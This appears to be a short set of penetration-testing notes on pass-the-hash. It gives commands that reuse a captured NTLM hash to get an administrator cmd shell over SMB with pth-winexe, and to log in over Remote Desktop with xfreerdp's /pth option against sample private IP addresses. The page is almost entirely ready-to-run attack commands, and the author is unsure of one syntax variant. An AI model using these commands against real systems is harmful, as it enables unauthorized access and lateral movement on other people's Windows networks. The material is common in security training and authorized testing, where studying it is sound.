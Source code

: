 # Pass the hash - reusing hashes

Pass the hash (PTH) is a technique that lets the user authenticate by using a vlaid username and the hash, instead of the unhashed password. So if you have gotten a hold of a hash you might be able to use that hash against another system.

Pass the hash is a suite of different tools. 

## SMB

So in order to use pass the hash we first need to put the hash in a env variable using the export command:

So we will atuhenticate against a smb-service. 

```
export SMBHASH=aad3b435b51404eeaad3b435b51404ee:6F403D3166024568403A94C3A6561896
```
```
pth-winexe -U administrator //192.168.1.101 cmd
```
I think you can run it like this too:

```
pth-winexe -U admin/aad3b435b51404eeaad3b435b51404ee:d4bf5a8658af50fd1d2b8dbb10859741 //192.168.0.101 cmd
```

## Remote Desktop


``` 
apt-get update
apt-get install freerdp-x11
```

```
xfreerdp /u:admin /d:win7 /pth:aad3b435b51404eeaad3b435b51404ee:d4bf2a5658af10fd1d1b8dbb60859746 /v:192.168.1.101
```

https://www.kali.org/penetration-testing/passing-hash-remote-desktop/